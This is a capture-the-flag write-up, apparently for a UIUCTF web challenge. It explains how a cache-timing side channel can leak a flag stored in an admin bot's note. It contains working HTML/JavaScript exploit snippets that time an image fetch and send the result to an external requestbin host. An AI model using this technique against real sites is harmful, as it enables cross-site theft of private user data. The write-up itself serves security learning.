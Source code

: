 - Analysis ( bot.js )

1. Read the `/flag.txt` file and save it to `FLAG` variable.
2. Running a chrome instance using `playwright-chromium`.
3. Go to `https://chal.yana.wtf`, save `FLAG` in the note, and access the `URL` that we entered as an administrator. ( Important )

We learned a lot from our analysis !! 

In bot.js, flags are stored in notes. Also we know the flag format. ( uiuctf{[a-z0-9_]} ). That is, we can brute force using `uiuctf{`. This is where 'Cache Probing' is used. I know that when I search for a value contained in a note, a green image appears.

![image](https://user-images.githubusercontent.com/49112423/128535171-7f89b779-f375-4854-a2ea-4267d2021c68.png)

Then, if we retrieve the value contained in the note, the browser loads a green image. At this time, since it is loaded for the first time, it will be cached on disk. At this time, if we retrieve the green image one more time, the image can be loaded much faster than the first time since the cache is already saved.

```html
<script>
    const image = "https://sigpwny.com/uiuctf/y.png"
    const requestbin = "//79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/"
    window.open(`https://chal.yana.wtf/#a`);

    setTimeout(() => {
        const start = new Date();
        fetch(image).then(d => {
            const end = new Date();
            location.replace(requestbin + "?time=" + (end-start));
        });
    }, 1000)
</script>
```
First of all, this is the exploit code that sends a query that is not saved in the memo. In the above situation, the browser will load a red image. Then the green image will take a lot of time because it is the first to load.

Let's check it out.

![image](https://user-images.githubusercontent.com/49112423/128592771-367017d1-dc6a-4fe6-b998-74ff67270a46.png)

Nice, When sending a query that does not contain it, it took about 43s?43ms.

```html
<script>
    const image = "https://sigpwny.com/uiuctf/y.png"
    const requestbin = "//79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/"
    window.open(`https://chal.yana.wtf/#uiu`);

    setTimeout(() => {
        const start = new Date();
        fetch(image).then(d => {
            const end = new Date();
            location.replace(requestbin + "?time=" + (end-start));
        });
    }, 1000)
</script>
```
Now, let's check the loading time when sending the query included in the note.
